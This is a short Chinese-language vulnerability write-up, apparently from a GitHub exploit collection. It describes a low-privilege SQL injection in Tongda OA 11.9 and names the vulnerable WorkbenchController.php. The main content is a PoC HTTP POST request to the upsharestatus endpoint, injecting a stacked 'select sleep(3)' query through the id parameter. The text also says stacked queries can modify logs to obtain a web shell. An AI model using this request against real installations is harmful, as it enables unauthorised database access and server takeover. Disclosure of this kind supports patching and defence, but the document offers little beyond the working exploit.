

# 通达OA11.9 低权限SQL注入漏洞

利用条件：任意一个用户PHPSESSID  后台堆叠注入 -> 修改日志getshell

\general\appbuilder\modules\portal\controllers\WorkbenchController.php:



**PoC：**

```
POST /general/appbuilder/web/portal/workbench/upsharestatus HTTP/1.1
Host:
...

uid=5&status=1&id=2;select sleep(3)
```

ref：

catw0rld